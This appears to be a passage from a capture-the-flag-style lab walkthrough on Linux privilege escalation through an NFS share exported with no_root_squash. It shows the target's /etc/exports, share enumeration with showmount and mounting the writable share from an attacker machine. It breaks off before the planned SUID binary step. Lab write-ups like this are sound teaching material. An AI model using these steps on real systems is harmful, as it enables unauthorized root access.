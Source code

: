 

### Task 11: PrivEsc: NFS

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. 

Some cases will also require you using both vectors, for example finding root SSH private keys on the target system and connecting via SSH with root privileges instead of doing it locally. 


NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS installation and can be read by users. 


```bash
karen@ip-10-10-44-64:/home$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```


An important element is the `no_root_squash` option seen above. By default, NFS will change the root user to `nfsnobody` and strip and file form the OS with root privileges.

If the `no_root_squash` option is present on the writable share, we can create an executable with an SUID bit set and run it on the target system. 


We can begin by enumerating shares from the attacker machine.

```bash
[29/03/22 7:44:06] joey@blackarch:~
$ showmount -e 10.10.44.64
Export list for 10.10.44.64:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *

[29/03/22 7:44:15] joey@blackarch:~
```

```bash
[29/03/22 7:47:02] joey@blackarch:~
$ sudo mount -o rw 10.10.44.64:/home/ubuntu/sharedfolder /tmp/backupfromattacker

[29/03/22 7:47:10] joey@blackarch:~
$ cd /tmp/backupfromattacker 

[29/03/22 7:47:15] joey@blackarch:/tmp/backupfromattacker
$ ls

[29/03/22 7:47:16] joey@blackarch:/tmp/backupfromattacker
```
